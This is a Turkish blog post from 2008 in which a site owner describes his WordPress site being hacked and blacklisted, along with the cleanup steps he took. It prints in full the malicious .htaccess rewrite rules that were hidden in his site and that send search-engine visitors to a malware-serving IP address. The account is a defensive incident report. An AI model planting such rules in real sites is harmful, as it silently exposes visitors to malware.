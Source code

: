 Title: Hacklendik
Date: 2008-11-18 22:15
Category: Haberler
Tags: apache, ftp, google, hack, htaccess, malware, WordPress

Bu gün siteme girmeye çalışan Firefox ve Google üzerinden girmeye
çalışanların karşılaştığı bir sorun sitem zararlı içerik olduğu için
engellenmiş. Aslında tüm arama sitelerinden gelen yönlendirmeler de aynı
sorun varmış. En sonunda anladım. Uzun aramalar sonunda
[http://wordpress.org/support/topic/217700][] Bu linkdeki bilgiler
doğrultusunda htcaacces içine girilen yönlendirme kodu nedeni ile
yaşamışım bu sorunları. Ayrıca yazılarımın için yerleştirilmiş bir
iframe reklam linkeleri de var tabi. Yukarıdaki linkdeki işlemleri tek
tek yaptım - htaccess dosyasını sildim. - ftp şifremi değiştirdim -
hostingh firmamdan sitemin bulnduğu klasörü bir virüs, malware
taramasından geçirmelerini istedim. Sorunun ana nedeni htaccess
dosyasında ki kodlar olarak görünüyor. Başta uzunca bir boşluktan sonra
aşağıdaki kod yazıyordu. RewriteEngine On RewriteCond %{HTTP_REFERER}
.*google.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*aol.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*msn.*$ [NC,OR] RewriteCond
%{HTTP_REFERER} .*altavista.*$ [NC,OR] RewriteCond %{HTTP_REFERER}
.*ask.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*yahoo.*$ [NC]
RewriteRule .* http://89.28.13.202/in.html?s=ix [R,L] Bu arada cute
ftp'de htaccess görüntülemeyide öğrendik.
[http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html][]
Muhtemelen sorun haftasonu benim kalıcı bağlantılarım gittinde oldu ve
ben bunu anlamadım. Asıl sorunun ise sitemi yahoo.com'da aradığımda
karşılaştım, linke tıkladığımda bilgisayarıma zararlı yazılım eklemeye
çalıştı. Zaten yukarıdaki kodda da bu açıkça görülüyor, siteme direk
girişlerde değilde arama sonuçlarından gelince yüklenmeye çalışıyor. Ama
hesap edemedikleri şey google'un bunu görüp sitemi kapatması. Google'un
ve Firefox'un sitemi engellemeleri daha bitmedi. Google Web Yöneticis
aracındaki incelemeye alın işaret kutunu işaretledim ve
StopBadware.org'daki formuda doldurdum. Neyse hayırlısı bakalım. Bu
durumu gören ve beni uyaran tüm arkadaşlara teşekkürler. Umarım bu tip
sorunlarla bi daha karşılaşmayız.

### Ek olarak

Ayrıca http://www.fatihhayrioglu.com/?ref=siteAdi gibi linkler var.
Bunlarıda robots.txt User-agent: * Disallow: /*ref=* Disallow:
/*?ref= kodlarını ekleyerek düzelttim. İşin ilginci bu linkleri
google'un arama aracı nasıl buluyor.

</p>

  [http://wordpress.org/support/topic/217700]: http://wordpress.org/support/topic/217700
  [http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html]:
    http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html
